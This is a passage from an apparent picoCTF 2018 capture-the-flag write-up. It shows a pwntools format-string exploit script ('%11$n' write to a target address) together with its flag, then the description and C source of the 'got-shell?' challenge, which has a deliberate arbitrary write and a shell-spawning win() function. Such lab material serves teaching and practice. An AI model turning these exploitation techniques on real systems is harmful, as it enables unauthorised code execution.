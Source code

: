 ```python
from pwn import *

# sh = process('./auth')
sh = remote('2018shell2.picoctf.com', 52918)
target = 0x0804a04c

payload = ''
payload += p32(target)
payload += '%11$n'
# for i in range(5, 20):
#   payload += '%{}$x '.format(i)

sh.sendlineafter(')\n', payload)

sh.interactive()
```

flag: `picoCTF{y0u_4r3_n0w_aUtH3nt1c4t3d_d29a706d}`

# got-shell?

## Problem

Can you authenticate to this [service](/blog/picoctf-2018-writeup/Binary Exploitation/got-shell/auth) and get the flag? Connect to it with `nc 2018shell2.picoctf.com 46464`. [Source](/blog/picoctf-2018-writeup/Binary Exploitation/got-shell/auth.c)

## Solution

Let's look at the source code:

```c
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <string.h>
#include <sys/types.h>

void win() {
  system("/bin/sh");
}

int main(int argc, char **argv) {

  setvbuf(stdout, NULL, _IONBF, 0);

  char buf[256];
  
  unsigned int address;
  unsigned int value;

  puts("I'll let you write one 4 byte value to memory. Where would you like to write this 4 byte value?");

  scanf("%x", &address);

  sprintf(buf, "Okay, now what value would you like to write to 0x%x", address);
  puts(buf);
  
  scanf("%x", &value);

  sprintf(buf, "Okay, writing 0x%x to 0x%x", value, address);
```